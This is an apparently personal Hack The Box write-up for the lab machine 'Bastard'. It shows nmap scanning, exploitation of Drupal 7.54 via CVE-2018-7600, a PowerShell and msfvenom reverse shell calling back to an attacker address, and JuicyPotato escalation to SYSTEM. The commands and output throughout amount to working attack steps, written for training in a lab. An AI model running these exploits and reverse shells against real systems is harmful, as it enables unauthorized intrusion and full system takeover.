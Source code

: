 ```yaml
---
title: HTB - Bastard
description: ""
date: 2024-08-20 06:25:00 -0600
categories:
  - writeups
  - hackthebox
  
tags:
  - writeup
  - drupal
  - potato_privesc
  - clsid
    - hackthebox
---
```


## Enumeration

Starting with a nmap scan I find three open ports 

```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.9 -oG allPorts -vvvv
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 127
135/tcp   open  msrpc   syn-ack ttl 127
49154/tcp open  unknown syn-ack ttl 127
```

Visiting the port 80 I find a drupal login panel

![Desktop View](/assets/img/htb/bastard/drupal_login_1.png)


doing a curl to the changelog.txt I'm able to enumerate the version which in this case is 7.54
```bash
$ curl -s -X GET http://10.10.10.9/CHANGELOG.txt  | head

Drupal 7.54, 2017-02-01
-----------------------
```

## shell as iusr 

searching for some exploits I find this [CVE-2018-7600](https://github.com/pimps/CVE-2018-7600) that allows me to get remote command execution on the machine 

```bash
$ python drupa7-CVE-2018-7600.py -c 'whoami' http://10.10.10.9/
[*] Triggering exploit to execute: whoami
nt authority\iusr
```

To get a stable shell I use the base64 powershell reverse shell from [revshells](https://www.revshells.com/) I start a nc listener on port 9001 and receive the connection

```sh
$ python drupa7-CVE-2018-7600.py -c 'powershell -e JABjAGwAa...' http://10.10.10.9/
```

```
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.9] 51840

PS C:\inetpub\drupal-7.54> whoami
nt authority\iusr
PS C:\inetpub\drupal-7.54> 
```

Enumerating privileges I see that the seimpersonate privilege is enabled which might allow me to use a juicy potato or a similar exploit to elevate privileges

```bash
PS C:\inetpub\drupal-7.54> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
PS C:\inetpub\drupal-7.54> 
```

## shell as nt authority\system

I create a shell.exe file with msfvenom that will give me a reverse shell 

```shell
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=9001 -f exe -o shell.exe
```

I download juicy potato and the shell.exe executable files into the target machine 

```sh
PS C:\windows\temp\x> copy \\10.10.14.13\smbfolder\shell.exe . 
PS C:\windows\temp\x> copy \\10.10.14.13\smbfolder\jp.exe .
```

I start another nc listener on port 9001 and then I try to run jp.exe with the program shell.exe but it fails

```sh
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p .\shell.exe 
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
```

The reason is that the clsid is wrong so I look for a valid one [here](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise) I retry the exploit two times until it gives an "OK" response
```shell
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p ".\shell.exe" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 1337
...........................................
PS C:\windows\temp\x> .\jp.exe -t * -l 1337 -p ".\shell.exe" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 1337
....
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\windows\temp\x> 
```

and finally I receive a shell as nt authority\system

```
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.9] 63808
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```


